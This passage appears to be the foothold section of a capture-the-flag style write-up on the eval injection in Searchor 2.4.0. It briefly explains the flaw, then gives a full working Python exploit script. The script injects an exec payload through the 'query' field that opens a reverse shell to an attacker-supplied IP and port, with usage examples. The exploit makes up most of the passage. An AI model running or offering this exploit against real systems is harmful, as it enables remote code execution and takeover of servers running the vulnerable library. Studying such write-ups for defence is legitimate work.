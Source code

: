## Foothold: Searchor 2.4.0
With a simple search on Google about this particular version. I came across this [github](https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-/tree/main) repository which included the `POC`.

Below is the vulnerable code that leads this exploit to work. It's using the `eval` function and follow with `{engine}` and `{query}` as input.

![vulnerable code in github](github-code-vuln.png "vulnerable code in github")

So, I make a simple exploit in python based on this [POC](https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-/tree/main) by using `python reverse shell` as the payload.

```python
#!/usr/bin/env/python3
# Searchor 2.4.0 POC
# Description:
#   https://github.com/ArjunSharda/Searchor/commit/29d5b1f28d29d6a282a5e860d456fab2df24a16b
#   https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-/blob/main/README.md
#   https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-/tree/main
#   https://security.snyk.io/package/pip/searchor/2.4.0

import requests
import sys
#p = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}

def send_req(url, ip, port):
    payload = "', exec(\"import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('{}',{}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);\"))#".format(ip, port)
    data = {'engine':'Accuweather','query':f'{payload}'}
#    requests.post(url, data=data, proxies=p)
    requests.post(url, data=data)

if __name__=="__main__":
    try:
        url = sys.argv[1].strip()
        ip = sys.argv[2].strip()
        port = sys.argv[3].strip()
    except IndexError:
        print("[-] Usage: {} <url> <attacker_ip> <attacker_port>".format(sys.argv[0]))
        print('[-] Example: {} "http://example.com/search" "10.10.10.10" "1111"'.format(sys.argv[0]))
        sys.exit(1)

    print("[!] Sending the payload...")
    send_req(url, ip, port)
```